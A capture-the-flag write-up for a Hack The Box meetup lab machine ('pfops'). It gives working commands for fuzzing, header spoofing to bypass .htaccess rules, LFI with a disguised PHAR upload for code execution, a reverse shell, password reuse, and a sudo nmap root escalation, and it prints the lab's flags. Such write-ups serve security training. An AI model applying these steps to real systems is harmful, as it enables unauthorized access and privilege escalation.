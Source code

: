 ```yaml
---
layout: post
title:  "Hack The Box Meetup CMR: Pfops Write-Up"
category : writeup
tags :  lfi privesc 
---
```


![](assets/blog/htbmeetupcmr_04/banner.png)

---

### Description:

This machine I made takes advantage of misconfigurations in file uploads, LFI exploitation, and Linux privilege misconfigurations, simulating an environment where attackers discover credentials and escalate privileges on a simulated internal server and gain root execution sudo abuse

#### Difficulty: `easy`

#### Flags: `User`: `htbmeetupcmr{PH4R_LF1_2_Rc3_ch411}` `Root`: `htbmeetupcmr{NM4p_2_r007_0wn4g3}`

---

### Enumeration

1. **Network Scanning**:
   - Scan the machine’s IP to identify open ports:
     ```bash
     rustscan -a 16.16.145.247 -- -sV -sC -oN scan_results 16.16.145.247.txt
     ```
   - Open Ports:
     - **Port 80 (HTTP)**: Web server with unknown host redirection
     - **Port 22 (SSH)**: Potential SSH access

2. **Host Discovery**:
   - Accessing the machine’s IP in a browser causes a redirection to **pfops.htb**.
   - Add `pfops.htb` to `/etc/hosts`:
     ```plaintext
      #htb-MEETUP
      16.16.145.247 pfops.htb
     ```

3. **Web Enumeration on pfops.htb**:
   - If you did not follow the rules and never made your requests with the correct user-agent format you get a 403 forbidden page

   - The main page on **http://pfops.htb** shows a basic landing page with no obvious functionality.

   ![alt text](assets/blog/htbmeetupcmr_04/image.png)

   - Fuzz directories using `ffuf` to reveal a hidden `/dev/` 
     ```bash
     ffuf -u http://pfops.htb/FUZZ -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x `http://127.0.0.1:8080`    
    
     ```
   - Further fuzzing in the directory reveals the **.git** folder 
   - Dump `.git` contents using `git-dumper` and inspect the files to find `.htaccess`, which lists access requirements set on the apache server.

   - Doing some subdomain enumeration reveal a dev subdomain but with a 403 forbbiden page
   - upon analysing the content of the .htaccess file
      ```plaintext
         <IfModule mod_rewrite.c>
            RewriteEngine On
            # Restrict access based on X-Forwarded-For to allow only 192.168.100.0/24
            RewriteCond %{HTTP:X-Forwarded-For} !^192\.168\.100\.[0-9]{1,3}$
            RewriteRule ^ - [F]
            # Further restrict based on custom header for dev access
            RewriteCond %{HTTP:Admins} !^Tom$
            RewriteRule ^ - [F]
         </IfModule>

      ```
      - Here the access to the dev subdomain is conditioned with a request comming from an internal host in the lan network **192.168.100.0/24** 
      - Furthermore it is restricted to a particular header **Admins: Tom** 
     ```plaintext
     X-Forwarded-For: 192.168.100.0/24
     Admins: Tom
     ```

4. **Accessing dev.pfops.htb**:
   - Add `dev.pfops.htb` to `/etc/hosts`:
     ```plaintext
     16.16.145.247 dev.pfops.htb
     ```
   - Set custom headers to gain access:
     ```plaintext
     X-Forwarded-For: 192.168.100.1
     Admins: Tom
     ```
     - You can do this with a firefow brower extension https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search 
     by simply adding all your custom headers request and all request wiil be done with these headers

   - The page reveals a file upload form to check the integrity of XML configuration files.

---

### Foothold

1. **LFI Exploitation**:
   - The `page` parameter in **dev.pfops.htb** has a hidden parameter, since the webpage is still under developement we assume it's a mistake from the Développers, to check for this hidden parameter we Fuzz and check for the actual param
     ```plaintext
     ffuf -u 'http://dev.pfops.htb/?FUZZ=index.php' -w `fzf-wordlists` -H "User-Agent: htbmeetupcmr  bl4ckarch" -x http://127.0.0.1:8080  -mc 500,200,403 -H 'X-Forwarded-For: 192.168.100.1' -H 'Admins: Tom' -fs 2469
      ```
     ![alt text](assets/blog/htbmeetupcmr_04/image-2.png)
     
     - Getting the 500 error code while trying to get the server's index page make and error since it's 500 this tell us the server tried to include himself and therefore making a infinite loop and hence the error 
     - From there we try to test for a Local file inclusion vulnerability at it workss
     
     ![alt text](assets/blog/htbmeetupcmr_04/image-1.png)
     
     - The actual vulnerable parameter is page which is therefore vulnerable to an LFI
      ![alt text](assets/blog/htbmeetupcmr_04/image-3.png)

2. **Bypassing Upload Restrictions**:

   - **dev.pfops.htb** permits `.txt` uploads, which allows bypassing restrictions using a **PHAR archive**.
   - Create a PHP info function to a file, `test.php`:
   - Create a zip named **test.zip** containing the `test.php`
   - Then rename the **test.zip** to **test.txt**
     ```bash
     echo "<?php phpinfo();?> >> test.php
     zip -r test.zip test.php
     mv test.zip test.txt
     ```
   - upload the file to the server 
   - Trigger the shell with the `phar://` php filter to trigger execution:
     ```plaintext
     GET /?page=phar://uploads/e3c421cb45d2fc24b3219293fa0a9386/test.txt/test.php
     ```
     ![alt text](assets/blog/htbmeetupcmr_04/image-4.png)
   - Hence Remote code execution 
   - We then put a revershell php and repeat the process to get a shell
     
     ![alt text](assets/blog/htbmeetupcmr_04/image-5.png)

---

### Lateral Movement

1. **Database Credentials**:
   - Running **ss -tulpn** shows us a list of port on which the server is listenning
   we actually see port 3306 and port 8000 we actually get a python web server.
   - navigating throught the /var/www directory reveals `internal_app` which contains a `.env` file containing database credentials:
     
   - The `.env` password grants SSH access as **tom** due to password reuse.

     ![alt text](assets/blog/htbmeetupcmr_04/image-6.png)

2. **SSH to tom**:
   - Log in to **tom** via SSH put ssh is restricted to public key only:
     ```bash
     ssh tom@pfops.htb
     ```
      ![alt text](assets/blog/htbmeetupcmr_04/image-7.png)
   - While on our rev shell we do a su tom and enter the password and we are logged as tom
   ```shell
         tom@ip-172-31-43-97:/var/www/internal_app$ id
         id
         uid=1001(tom) gid=1001(tom) groups=1001(tom)
         tom@ip-172-31-43-97:/var/www/internal_app
   ```
---

### Privilege Escalation

1. **Sudo Privilege on Nmap**:
   - The `tom` user has limited sudo access to **nmap**. 
      
      ![alt text](assets/blog/htbmeetupcmr_04/image-8.png)
      https://gtfobins.github.io/gtfobins/nmap/#sudo
     ```bash
      TF=$(mktemp)
      echo 'os.execute("/bin/sh")' > $TF
      sudo nmap --script=$TF
     ```
   - This command executes as root, granting full system access.

     ![alt text](assets/blog/htbmeetupcmr_04/image-9.png)

---
